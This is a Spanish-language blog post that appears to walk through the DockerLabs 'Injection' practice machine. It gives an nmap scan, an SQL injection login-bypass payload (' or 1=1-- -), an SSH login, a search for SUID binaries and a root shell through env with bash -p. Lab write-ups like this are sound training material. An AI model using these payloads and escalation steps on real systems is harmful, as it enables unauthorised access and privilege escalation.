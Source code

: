 ```yaml
---
layout: post
title: "Injection"
date: 2024-07-01 11:05:23
category: sample
vm: dockerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Injection </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Muy Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/dockerlabs/injection/host.png){:.margin}

**1\.** Escaneando puertos y servicios de la maquina.

`sudo nmap -p- -T5 -sCV --min-rate=5000 -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/injection/nmap.png){:.margin}

**2\.** Por el servicio apache encontramos un panel login.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/injection/80.png){:.margin}

**3\.** Intento provocar un error en la query, ya sabiendo que se acontece una injection sql, bypasseo el login.

`' or 1=1`

`'or 1=1-- -`

![img](/notas/public/img/dockerlabs/injection/errordb.png){:.margin}
![img](/notas/public/img/dockerlabs/injection/loginor.png){:.margin}
![img](/notas/public/img/dockerlabs/injection/loginok.png){:.margin}

**4\.** Me conecto por ssh como dylan.

`ssh dylan@172.17.0.2`

![img](/notas/public/img/dockerlabs/injection/sshdylan.png){:.margin}

**5\.** Busco binarios SUID.

`find / -perm -4000 2>/dev/null`

![img](/notas/public/img/dockerlabs/injection/find.png){:.margin}

**6\.** Escalando privilegios, podemos aprovechar el binario env si lo buscamos en [gtfobins](https://gtfobins.github.io/gtfobins/env/#suid).

`/usr/bin/env /bin/bash -p`

![img](/notas/public/img/dockerlabs/injection/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>